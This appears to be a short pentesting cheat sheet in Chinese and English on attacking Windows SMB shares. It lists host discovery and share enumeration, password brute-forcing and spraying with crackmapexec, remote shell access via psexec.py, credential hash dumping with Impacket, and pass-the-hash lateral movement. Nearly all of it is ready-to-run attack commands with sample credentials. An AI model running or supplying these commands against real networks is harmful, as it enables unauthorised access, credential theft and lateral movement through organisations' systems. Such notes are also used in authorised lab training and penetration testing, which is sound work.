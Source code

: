 ```bash

dir \\$ComputerName/c$
```
Linux
```bash
nbtscan 192.168.0.22 -v

nmblookup $ComputerName
nmblookup -A $IP

smbclient -N -L 192.168.0.22
smbclient -U 'Administrator%Pa$$w0rd' //192.168.0.22/c$
smbclient -U 'Administrator%Pa$$w0rd' //192.168.0.22/c$ -c 'dir'
```
```bash
nmap 192.168.0.* -p445 --open -n -Pn -oG - | grep Up | cut -d ' ' -f2 > ip_smb
```
crackmapexec 爆破smb windows好朋友
```bash
# Impacket
python3 -m pip install --upgrade impacket
python3 -m pip list | grep impacket

# crackmapexec
crackmapexec smb ip_smb -u administrator -p 'Pa$$ew0rd'

# 密碼爆破策略
1.字典攻擊
  固定target 固定帳號 PasswordList
2.Password Spraying
  固定target UserList 固定少數密碼
3.Credential Strring
  targetlist 固定帳號 固定密碼


# 密碼噴灑
crackmapexec smb 192.168.0.7 -u userlist.txt ... --continue-on-success



# 進去
psexec.py 'administrator:Pa$$w0rd'@192.168.0.22


# 密碼雜湊 橫向移動
# get hash
impacket-screctdump 'administrator:Pa$$w0rd'@192.168.0.22
psexec.py 'administrator'@192.168.0.22 -hashes : $hash

# pth-winexe 2016後的機器不好使
前半段其實塞32個字元就可以了不會特別驗
```
